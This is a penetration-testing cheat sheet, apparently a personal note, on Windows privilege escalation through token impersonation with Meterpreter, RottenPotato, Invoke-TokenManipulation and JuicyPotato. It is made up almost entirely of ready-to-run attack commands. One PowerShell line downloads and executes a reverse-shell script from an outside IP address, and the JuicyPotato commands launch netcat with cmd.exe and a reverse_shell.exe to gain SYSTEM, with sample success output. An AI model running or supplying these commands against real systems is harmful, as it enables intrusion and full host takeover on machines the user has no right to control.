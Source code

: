 ## EoP - Impersonation Privileges

### Identifier
```bash
whoami /priv
```
![[Pasted image 20210805012521.png]]
### METERPRETER GETSYSTEM AND ALTERNATIVES

```
meterpreter> getsystem 
Tokenvator.exe getsystem cmd.exe 
incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
psexec -s -i cmd.exe 
python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc
```

### ROTTENPOTATO (TOKEN IMPERSONATION)

Binary available at : https://github.com/foxglovesec/RottenPotato Binary available at : https://github.com/breenmachine/RottenPotatoNG

```
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

### JUICY POTATO (ABUSING THE GOLDEN PRIVILEGES)

Binary available at : https://github.com/ohpe/juicy-potato/releases  
:warning: Juicy Potato doesn’t work in Windows Server 2019.

1.  Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)
    
    ```
     whoami /priv
    ```
    
2.  Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
    
    -   [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise)
    -   [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    -   [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    -   [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    -   [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise)
    -   [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    -   [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard)
3.  Execute JuicyPotato to run a privileged command.
    
    ```
     JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
     JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
     JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
         Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
         ......
         [+] authresult 0
         {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
         [+] CreateProcessWithTokenW OK
    ```